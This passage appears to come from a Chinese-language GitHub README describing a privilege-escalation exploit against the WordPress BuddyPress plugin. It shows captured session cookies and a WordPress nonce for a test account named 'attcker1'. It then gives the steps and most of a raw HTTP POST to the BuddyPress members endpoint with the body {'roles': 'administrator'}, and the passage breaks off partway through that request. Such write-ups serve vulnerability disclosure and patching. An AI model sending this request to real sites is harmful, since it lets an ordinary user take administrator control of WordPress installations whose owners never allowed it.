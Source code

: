    ![1748229219600](image/readme/1748229219600.png)
    **cookie:**
        ```http
        grafana_session=7cee305b146bf89decccac3eb414687f; grafana_session_expiry=1747723015; zbx_sessionid=060b0abb1800d98452c40e735dbb58fa; wp-settings-time-2=1747822280; experimentation_subject_id=eyJfcmFpbHMiOnsibWVzc2FnZSI6IklqZzRZVGcyWlRWakxUa3dZamN0TkRNMFl5MDVaREF4TFdZME5EZ3haVFptTVdNd01TST0iLCJleHAiOm51bGwsInB1ciI6ImNvb2tpZS5leHBlcmltZW50YXRpb25fc3ViamVjdF9pZCJ9fQ%3D%3D--a69a8d8efbbef8037dbb261a0526aae27fb6c1b8; metabase.DEVICE=0af33864-c7aa-43fd-89aa-287250f4c715; vue_admin_template_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoxLCJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzQ3OTY5MjYzLCJlbWFpbCI6IiJ9.C9VdlIBrcP4xj1g5TzsBWQosumWuAVXLH1S6Lgzk8nI; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_8232bb51e9fa6ae4bed9f94b4ce661c2=attcker1%7C1748062618%7CGvjHpcyFfFhCylwuqLNafXmiHwJqmZ5VldxGcUkR0Bz%7Ca6226440d0bde4fe9d4cf14cce8fcf49dd365c9f342c5296f67044f265433248; wp-settings-time-3=1747889821
        ```
        **X-WP-Nonce:** ``cb16f80772``

3. **构造提权请求**
   - 使用提取的 `X-WP-Nonce` 和 `Cookie` 构造 POST 请求，发送到 `/wp-json/buddypress/v1/members/me`。
   - 请求体如下：
     ```json
     {"roles": "administrator"}
     ```
   - 完整请求包：
        ```http
        POST /wp-json/buddypress/v1/members/me HTTP/1.1
        Host:192.168.20.12:10459
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
        Accept: */*
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
        X-WP-Nonce: cb16f80772